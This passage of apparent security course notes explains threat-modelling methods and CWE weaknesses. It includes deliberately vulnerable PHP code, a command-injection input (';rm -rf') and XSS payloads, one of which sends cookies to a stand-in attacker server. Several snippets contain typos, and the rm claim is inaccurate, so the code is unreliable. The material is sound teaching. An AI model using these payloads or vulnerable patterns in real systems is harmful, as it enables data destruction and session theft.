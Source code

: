 To reason about attacks, we use **threat modelling methodologies**. The idea is to help security engineers reason about threats to a system (aka. what could go wrong) by identifying potential threats and unprotected resources with the goal of prioritizing problems to implement security mechanisms

There are different ways of looking at the system : **Attack trees** (attack goal is the root and the ways to achieve this goal are representend by branches. The leafs are the weak resources), **STRIDE** (identify entities, events and boundaries. Reason about threats enumerating the type of threats that can be embodied by the adversary), **P.A.S.T.A.** (find threats within buisiness model, assess impact and prioritze based on risk), and many more!

Note : STRIDE stands for Spoofing, tampering, repudiation, information disclosure, denial of service and elevation of privileges



Common weaknesses enumeration ([CWE](https://cwe.mitre.org/top25/archive/2020/2020_cwe_top25.html)) is a database of software errors leading to vulnerabilities to help security engineers avoid pitfalls (aka. what not to do). Let's see a subset of those pitfalls :

- **insecure interaction between component** : subsystem feeding data that is not sanitized to another subsystem. This can be avoided using **SANITIZATION** (remember BIBA model)

  - CWE-78 : OS command injection : Imagine a webform with the PHP code running on the server

    ```html
    <form action"/url/myscript.php" method="post">
      userName: <input name="userName" type="text" />
      <input name="submit" type="submit" value="Submit" />
    </form>
    ```

    ```php
    $userName = $S_POST["userName"];
    $command = 'ls -l /home/'.$userName;
    system($command)
    ```

    The problem is that there is no check for `userName`. What happens if the user writes the string `;rm -rf` on the form? The command becomes `ls -l /home/;rm -rf` (list all files in /home/, then delete them all)

  - CWE-79 : Cross site scripting (commonly known at XSS) (improper neturalization of input during web page generation) : imagine a PHP code running on a server

    ```php
    $username = $_GET['userName'];
    echo '<div class"header"> Welcome, '.$username.'</div>';
    ```

    What happens if we browse the address `http://website.com/welcome.php?username='<script>alert("You have been attacked!");</script>'`. This would create a popup saying "you have been attacked!". A more dangerous case could be ``http://website.com/welcome.php?username='<script>http//adversaryserver/submit?cookie=document.cookie;</script>'` (this could allow the attacker to log as the user). This can be used the following way :
